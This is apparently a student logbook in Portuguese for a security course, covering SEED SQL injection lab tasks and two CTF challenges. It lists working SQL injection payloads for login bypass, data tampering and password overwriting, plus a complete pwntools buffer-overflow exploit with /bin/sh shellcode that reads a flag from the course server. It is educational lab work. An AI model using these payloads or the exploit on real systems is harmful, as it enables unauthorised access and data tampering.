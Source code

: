# LOGBOOK 8

## LAB

### Tarefa 1

Após carregar a base de dados com os comandos fornecidos, usamos a *query* `SELECT * FROM credential WHERE Name='Alice';` para imprimir a informação pretendida.

![](https://i.imgur.com/UNA3HPq.png)

![](https://i.imgur.com/4Gb4uLs.png)

### Tarefa 2

#### Tarefa 2.1

Depois de iniciarmos os *docker containers* e configurarmos o ficheiro `/etc/hosts` acedemos à pagina web http://www.seed-server.com e analisámos o método de autenticação no ficheiro **unsafe_home.php**.

![](https://i.imgur.com/f2CAVKX.png)

Verificámos que conseguiamos entrar como admin se usássemos a string `admin'#`. Isto deve-se ao facto de esta *string* fazer com que o *query* de sql passe apenas a pesquisar pelo *username* sem verificar a *password* pois ao metermos o apóstrofe depois do `admin` fechamos o *query* e depois o cardinal comenta o resto do antigo *query* fazendo com que seja possível entramos como `admin` sem sabermos a *password*.

![](https://i.imgur.com/T3eglSr.png)

#### Tarefa 2.2

De seguinda, tentámos fazer o mesmo mas em vez de usarmos a página *web* fizemos um *curl request*.

![](https://i.imgur.com/A8TpBFr.png)

Como podemos nesta *screenshot* a ideia para conseguirmos encontrar como um `admin` foi igual mas tivemos de ter em conta que não podíamos usar caracteres especiais. Para contornarmos isso substituímos o apóstrofe por **%27** e o cardinal por **%23**.

Verificámos que conseguimos entrar como `admin` depois vendo a *output* do terminal depois de executarmos este comando que demonstra a mesma informação que estava na *webpage* mas apenas em formato html.

![](https://i.imgur.com/XjC1mUP.png)

#### Tarefa 2.3

Esta tarefa consistia em introduzir um *input* com `;` de forma a introduzir uma *query* de **UPDATE/DELETE**. De forma a realizar este ataque, usamos a *string* `admin'; UPDATE credential SET Name = 'TESTE' WHERE Name = 'Alice'; #`. No entanto, o código está prevenido contra este tipo de ataques.

Através de pesquisa na internet, descobrimos que este tipo de ataque chama-se ***PiggyBacked Queries*** e que, provavelmente, a defesa usada é ***Filter and sanitize inputs***.

![](https://i.imgur.com/R2opke4.png)

![](https://i.imgur.com/qK9gF7w.png)

### Tarefa 3

#### Tarefa 3.1

Colocando a *string* ` ', salary = 10 WHERE name='Alice' #` em qualquer um dos campos de *input* na página de edição de perfil (exceto o da *password*), isto acontece porque o primeiro apóstrofe fecha a *string* de *input* e a vírgula, seguido da expressão que contém a informação a modificar, injeta no SQL código que permite alterar dados. Por fim, o cardinal vai comentar o restante código, ignorando-o.

![](https://i.imgur.com/3U0xc3J.png)

![](https://i.imgur.com/sAwbKGs.png)

#### Tarefa 3.2

Esta tarefa é muito semelhante à anterior, sendo apenas necessário alterar a *string* para suportar os valores necessários: ` ', salary = 1 WHERE name='Boby' #`

![](https://i.imgur.com/gn5HUTp.png)

![](https://i.imgur.com/jqydr3m.png)

#### Tarefa 3.3

Sabendo que a *password* está enciptada em *sha1*, é apenas necessário usar o *input* `', password = '2e6f9b0d5885b6010f9167787445617f553a735f' WHERE name='Boby' # ` na página de *Edit Profile* para modificar a *password*. O valor utilizado `2e6f9b0d5885b6010f9167787445617f553a735f` corresponde à *string* `teste`, que vai ser a nova password associada á conta do Boby.

![](https://i.imgur.com/GUFSVpr.png)

É possível confirmar que o valor da *password* foi modificado na base de dados através da *printscreen* seguinte:

![](https://i.imgur.com/lyLlyZH.png)

![](https://i.imgur.com/5nEma3E.png)

## CTFs

### Desafio 1

De forma a tentar descobrir qual seria a vulnerabilidade disponível para resolver este desafio, decidimos analisar o código fonte. Esta abordagem permitiu-nos descobrir que, na linha 40, existe uma vulnerabilidade de ***SQL Injection*** que podemos explorar.

![](https://i.imgur.com/maYWitr.png)

Assim, tentamos utilizar diferentes tipos de *input* chegando ao resultado que nos permitiu explorar esta vulnerabilidade: ` admin' or ''=' `. Isto acontece porque estamos a introduzir o *username* correto `admin`, seguido do operador lógico **or** e qualquer expressão que tenha um valor boleano associado, neste caso `'='`, que tem valor *true*. Desta forma, é possível alterar a *query* para retornar *true* desde que o *username* inserido seja o correto.

![](https://i.imgur.com/QRBVL4i.png)


### Desafio 2

Execuntando o comando `checksec` no ficheiro *program* é possível verificar os seguintes resultados:

![](https://i.imgur.com/3FU8tnG.png)

Estes resultado mostram que, dependendo de como o código estiver estruturado, pode existir uma vulnerabilidade por ***Buffer Overflow*** devido à inexistência de canários.

Qual é a linha do código onde a vulnerabilidade se encontra?
 - a vulnerabilidade encontra-se na linha 12 do ficheiro `main.c`;

![](https://i.imgur.com/Ahuxgte.png)

O que é que a vulnerabilidade permite fazer?
 - alterar valores de endereços guardados em memória;
 - permite ao atacante executar código arbitrário.

O código que usamos para dar buffer overflow foi o seguinte:

```
#!/usr/bin/python3
from pwn import *

p = remote('ctf-fsi.fe.up.pt',4001)

# read address from output
buffer= p.recvuntil(b"input:")[43:43+11]

buffer = int(buffer,16)

# Replace the content with the actual shellcode
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(500)) 

# Put the shellcode somewhere in the payload
start = 450               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = buffer+start           # Change this number 
offset = 104 + 4              # Change this number 

L = 4     # Use 4
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 

p.sendline(content)
p.interactive()
``` 

Para conseguirmos o endereço do *buffer* especificamos que caracteres do *input* queriamos ler para a variável *buffer*.

```
buffer= p.recvuntil(b"input:")[43:43+11]
buffer = int(buffer,16)
```

Metemos o *shellcode* no final da *payload* para conseguirmos aceder à *shell*.

```
# Put the shellcode somewhere in the payload
start = 450
content[start:start + len(shellcode)] = shellcode
```

Finalmente encontramos o endereço do registo e *ebp* e calculámos a diferença entre eles adicionando 4 no final para passarmos para o endereço de retorno.
```
ret    = buffer+start
offset = 104 + 4   
```

![](https://i.imgur.com/p0A6MRt.png)

![](https://i.imgur.com/BoDGNdT.png)

![](https://i.imgur.com/pgHbnee.png)

Depois de enviarmos o nosso *buffer* para o servidor, confirmamos que o *shellcode* está a executar, e realizamos os comandos `ls` e `cat flag.txt` para obtermos a *flag* pretendida.

![](https://i.imgur.com/BNbU9rN.png)

